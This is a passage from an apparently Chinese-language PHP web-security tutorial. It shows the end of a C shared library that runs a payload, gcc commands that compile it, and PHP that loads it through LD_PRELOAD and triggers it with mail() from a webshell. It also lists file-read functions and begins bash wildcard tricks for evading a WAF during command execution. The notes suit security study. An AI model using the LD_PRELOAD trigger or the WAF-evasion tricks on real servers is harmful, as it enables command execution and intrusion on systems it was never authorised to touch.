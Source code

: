 ```c
	 fclose(fp1);
         return 552;
        }else {
         payload();
         return 552;
       }


}

```
```
gcc -c -fPIC a.c -o a
gcc -shared a -o a.so
```
#### 通过putenv来设置LD_PRELOAD，让我们的程序优先被调用。在webshell上用mail函数发送一封邮件来触发。结果为
```php
<?php
   putenv("LD_PRELOAD=/var/www/html/a.so");
   mail("[email protected]","","","","");
  ?>

```
![Alt text](11.png)
#### 防止命令注入函数
```php
<?php
escapeshellcmd()
escapeshellarg()
?>
```
### 最后建立文件的目录要有写权限
## 八 任意文件读取函数
```php
<?php
file_get_contents()
highlight_file()
fopen()
readfile()
fread()
fgetss()
fgets()
parse_ini_file()
show_source()
file()
?>

```
#### 命令执行绕所waf
[命令执行绕waf](https://www.freebuf.com/articles/web/185158.html)[]
#####　技巧一：
在bash的操作环境中有一个非常有用的功能，那就是通配符，下面列出一些常用的通配符：
```
*    代表『 0 个到无穷多个』任意字符
?    代表『一定有一个』任意字符
[ ]    同样代表『一定有一个在括号内』的字符(非任意字符)。例如 [abcd] 代表『一定有一个字符， 可能是 a, b, c, d 这四个任何一个』
[ - ]    若有减号在中括号内时，代表『在编码顺序内的所有字符』。例如 [0-9] 代表 0 到 9 之间的所有数字，因为数字的语系编码是连续的！
```